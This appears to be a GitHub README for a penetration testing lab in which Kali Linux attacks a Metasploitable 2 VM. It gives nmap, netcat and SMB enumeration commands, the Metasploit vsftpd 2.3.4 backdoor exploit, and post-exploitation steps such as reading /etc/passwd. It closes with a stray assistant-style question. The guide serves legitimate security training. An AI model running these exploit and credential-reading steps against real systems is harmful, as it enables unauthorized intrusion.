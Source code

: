 # 🛡️ A Detailed guide to setting up a safe and practical Real world penetration testing lab.

<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Tools-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Target-Metasploitable-red?style=for-the-badge" />
</p>

---

## 🔹 Lab Overview

This lab is designed for **ethical hackers, penetration testers, and cybersecurity enthusiasts** to practice real-world penetration testing in a **safe and isolated network**.  

**Lab Components:**

| Machine | OS | IP Address | Role |
|---------|----|------------|------|
| Attacker | Kali Linux | 192.168.142.128 | Pentester machine |
| Target | Metasploitable 2 | 192.168.142.130 | Vulnerable machine for testing |

**Objective:**  
- Perform reconnaissance, scanning, enumeration, exploitation, and post-exploitation in a controlled environment.  

---

## 🔹 Lab Setup

### 1. Environment Requirements
- Virtualization software: **VirtualBox** or **VMware**
- Kali Linux ISO or VM image
- Metasploitable 2 VM
- Internal network setup for isolation
- Snapshots before starting tests

### 2. Network Configuration
1. Set both VMs to **Host-Only Adapter** or **Internal Network**.
2. Verify connectivity:
```bash
ping 192.168.142.130
````

---

## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

* Gather information without directly interacting with the target.

```bash
whois 192.168.142.130
nslookup 192.168.142.130
```

#### Active Recon

* Use **nmap** for port scanning:

```bash
nmap -sS -Pn 192.168.142.130
```

* Scan all ports and services:

```bash
nmap -p- -A -T4 192.168.142.130
```

---

### Step 2: Enumeration

* Identify running services and versions:

```bash
nmap -sV -p 21,22,23,80,139,445,3306 192.168.142.130
```

* FTP banner grabbing:

```bash
nc 192.168.142.130 21
```

* SMB enumeration:

```bash
smbclient -L \\192.168.142.130 -U guest
```

---

### Step 3: Vulnerability Analysis

* Identify known vulnerabilities:

```bash
searchsploit vsftpd 2.3.4
```

* Check open ports for exploits using **Metasploit**:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
run
```

---

### Step 4: Exploitation

* Exploit vulnerable services (FTP, SMB, Telnet):

```bash
exploit
```

* Gain shell access and check privileges:

```bash
whoami
id
```

---

### Step 5: Post-Exploitation

* Enumerate system information:

```bash
uname -a
cat /etc/passwd
ifconfig
```

* Check for privilege escalation opportunities:

```bash
sudo -l
```

---

### Step 6: Reporting

* Document findings:

  * Vulnerable services
  * Exploits used
  * Proof of concept screenshots
  * Suggested mitigation

**Template:**

| Vulnerability | Exploit Used  | Impact              | Mitigation                                   |
| ------------- | ------------- | ------------------- | -------------------------------------------- |
| FTP Backdoor  | vsftpd\_2.3.4 | Remote Shell Access | Upgrade FTP server / Disable anonymous login |

---

## 🔹 Recommended Tools

* Nmap / Zenmap
* Netcat
* Metasploit Framework
* Nikto / Dirb
* Wireshark
* Enum4linux / smbclient

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for educational purposes only. Do **NOT** perform penetration testing on networks or systems without explicit permission. Unauthorized testing is illegal and unethical.

```

Do you want me to do that?
```
